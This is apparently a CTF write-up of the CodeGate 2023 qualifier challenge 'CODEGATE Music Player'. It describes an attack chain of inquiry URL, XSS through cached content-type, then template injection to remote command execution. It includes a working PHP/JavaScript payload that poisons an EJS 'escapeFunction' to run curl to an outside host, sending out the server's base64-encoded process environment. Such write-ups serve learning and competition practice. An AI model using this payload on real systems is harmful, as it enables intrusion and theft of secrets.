 # CodeGate 2023 Quals

* https://gen.codegate2023.org/
* https://uni.codegate2023.org/

## CODEGATE Music Player

### Description

- Challenge URL: http://3.36.93.133/
- Challenge File: None

Last year, Finalists were involved to put their favorite songs on the playlist to avoid from playing the organizer's loud weeb songs on-site.

This year, we decided to provide some good music for the qualification round as well. Good luck solving CTF challenges!

### Solves

* General Division: 30 solves
* University Division: 5 solves

### Solution

1. Send inquiry to malicious audio-like file. `url = f'http://3.36.93.133/api/inquiry?url=http%3A%2F%2Fnginx%2Fapi%2Fstream%2Fhttp%253A%252F%252F(url)p3&checksum={checksum}'`

2. When inquiry is sent to add songs, content type of the content is compared and checked. However, when cached, the cached file auto-resolves the content-type by the browser. Therefore XSS is possible

3. When XSS is possible, admin API can be accessed where JS template RCE can be triggered to run system commands.

```php
<?php
header("Content-Type: audio/mp3");
?>
<!doctype html>
<script>
    data = {
        "id": {
            "settings": {
                "view options": {
                    "client": "true",
                    "escapeFunction": "1;return global.process.mainModule.constructor._load('child_process').execSync('curl http://a.com:1234/$(cat /proc/1/environ | base64 --wrap=0)');",
                }
            }
        }
    }
    fetch("http://nginx/api/messages", {
        method: "POST",
        headers: {
            "Content-Type": "application/json",
        },
        body: JSON.stringify(data)
    })
    .then(r=>{r.text()})
    .then(r=>{
        console.log(r);
    })
</script>
```
